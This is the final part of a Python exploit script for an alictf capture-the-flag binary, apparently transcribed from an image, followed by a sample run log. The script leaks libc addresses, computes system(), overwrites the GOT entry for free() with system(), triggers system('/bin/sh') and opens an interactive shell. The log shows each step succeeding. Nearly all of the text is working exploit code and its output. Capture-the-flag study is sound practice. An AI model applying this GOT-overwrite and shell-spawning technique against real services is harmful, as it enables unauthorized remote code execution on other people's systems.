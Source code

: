 
    	# if addr_printf - base_printf + base_system) !=
    	#	 addr_alarm  - base_alarm  + base_system  then libc version is wrong
    	addr_system = 0x0a00000000000000 | (addr_alarm  - base_alarm  + base_system)
    #	addr_system = 0x0a00000000000000 | (addr_printf - base_printf + base_system)

    	print '*** libc.printf() at', hex(addr_printf), '***'
    	print '*** libc.alarm()  at', hex(addr_alarm),  '***'
    	print '*** libc.system() is', hex(addr_system),  '***'


    	# -------------------------------------------------------------------------
    	# read_int_4008FC calls read_raw_input_40085D twice (1 directly and 1
    	# through atoi()), so we need "double" input
    	# -------------------------------------------------------------------------
    	print '[+] Overwriting free() with system()...'

    	s.send('\n' + 'kk' + '\n' ); s.recv(1024)		# Choice 2: "Set the message"
    	s.send('\n' + 'kk' + '\n' ); s.recv(1024)		# Message index: 2

    	s.send( pack('<Q', addr_system) )				# overwrite .got.free() with system()
    	s.recv(1024)


    	print ' *** Triggering system(/bin/sh)...'

    	s.send('\n' + 'kkk' + '\n'	); s.recv(1024)		# Choice 3: "Delete the message"
    	s.send('\n' + 'kkkkk' + '\n'); s.recv(1024)		# Message index: 5


    	print ' *** Opening Shell *** '
    	t = telnetlib.Telnet()              			# try to open shell
    	t.sock = s
    	t.interact()

    	exit(0)
    # --------------------------------------------------------------------------------------------------
    '''
    	root@xrysa:~/ctf/alictf# ./fb_expl.py
    	 *** Preparing heap layout for overflow...
    	[+] Overwriting entries in Q table...
    	[+] Overwriting entries in GOT table...
    	[+] Start ROPing to leak arbitrary addresses...
    	[+] Parsing leaked addresses...
    	*** libc.printf() at 0x7f16c9aab340 ***
    	*** libc.alarm()  at 0x7f16c9b17b90 ***
    	*** libc.system() is 0xa007f16c9a9d590 ***
    	[+] Overwriting free() with system()...
    	 *** Triggering system(/bin/sh)...
    	 *** Opening Shell ***